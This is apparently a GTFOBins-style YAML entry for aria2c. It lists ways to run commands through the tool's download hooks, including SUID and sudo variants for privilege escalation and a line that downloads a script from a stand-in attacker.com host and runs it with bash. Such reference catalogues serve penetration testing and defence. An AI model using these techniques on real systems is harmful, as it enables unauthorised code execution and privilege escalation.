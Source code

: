 ```yaml
---
description: Note that the subprocess is immediately sent to the background.
functions:
  execute-non-interactive:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        aria2c --on-download-error=$TF http://x
    - description: The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed. `--allow-overwrite` is needed if this is executed multiple times with the same GID.
      code: aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
  suid-enabled:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        ./aria2c --on-download-error=$TF http://x
  sudo-enabled:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo aria2c --on-download-error=$TF http://x
---
```

